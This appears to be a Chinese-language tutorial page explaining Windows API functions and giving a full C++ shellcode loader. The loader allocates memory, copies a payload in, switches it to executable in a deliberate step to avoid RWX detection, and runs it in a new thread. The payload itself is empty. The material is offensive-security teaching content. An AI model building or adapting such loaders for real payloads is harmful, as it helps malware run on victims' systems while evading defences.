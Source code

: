 # Common Shellcode Loader

​	有许多方法可以加载shellcode，但通常的流程包括三个步骤：

1. 申请内存

2. 将shellcode复制到内存中

3. 执行shellcode

   

   本小结不会详细列举所有的shellcodeloader，而是专注于深入讲解最经典的执行方式。



### 创建线程执行shellcode

#### 核心函数

**VirtualAlloc**

https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc

`VirtualAlloc` 函数用于在进程的虚拟地址空间中分配内存，并返回分配的内存的起始地址。以下是每个参数的含义：

```c++
LPVOID VirtualAlloc(
  LPVOID lpAddress, //要分配的内存区域的首选基地址。
  SIZE_T dwSize, //要分配的内存区域的大小，以字节为单位。 
  DWORD  flAllocationType, //指定内存分配类型的一组标志。
  DWORD  flProtect //指定内存页面的保护属性的一组标志。
);
```



**RtlMoveMemory**

https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory

`RtlMoveMemory` 函数是 Windows API 中的一个函数，用于将内存块中的数据从一个位置复制到另一个位置。

```c++
VOID RtlMoveMemory(
  VOID UNALIGNED *Destination, //这是一个指向目标内存块的指针，表示要将数据复制到的位置
  const VOID UNALIGNED *Source, //这是一个指向源内存块的指针，表示要从哪里复制数据
  SIZE_T         Length //这是要复制的数据的字节数
);
```

函数的作用是将源内存块中的数据复制到目标内存块中，长度为 `Length` 字节。这个函数类似于 `memcpy` 函数，但是在处理内存对齐方面更加灵活。



**VirtualProtect**

https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect

`VirtualProtect` 函数是 Windows API 中的一个函数，用于更改指定内存区域的访问权限。

```c++
BOOL VirtualProtect(
  LPVOID lpAddress,	//指向要修改保护属性的内存区域的起始地址的指针。
  SIZE_T dwSize, //要修改保护属性的内存区域的大小，以字节为单位。
  DWORD  flNewProtect, //要设置的新的访问权限和页面属性的组合。
  PDWORD lpflOldProtect //指向变量的指针，用于存储之前的访问权限和页面属性。
);
```

函数的作用是将指定内存区域的访问权限和页面属性设置为新的值，并将之前的值存储在指定的变量中。



**CreateThread**                                                                                        

https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread

`CreateThread` 函数是 Windows API 中的一个函数，用于在当前进程中创建一个新的线程。

```c++
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```



#### 代码讲解

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
  DWORD oldprotect = 0;

	//shellcode在main函数内，存储在pe结构的sections table中的.text部分
	unsigned char payload[] = {};
	unsigned int payload_len = sizeof(payload);
	
	// 使用VirtualAlloc申请一个可读可写的内存，这里没有申请执行权限是为了防止出现RWX权限的敏感内存
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// 将shellcode复制到申请的内存中，这里还可以用memcpy等
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// 使用VirtualProtect添加执行权限
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	// 如果返回正常，创建线程执行shellcode
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```

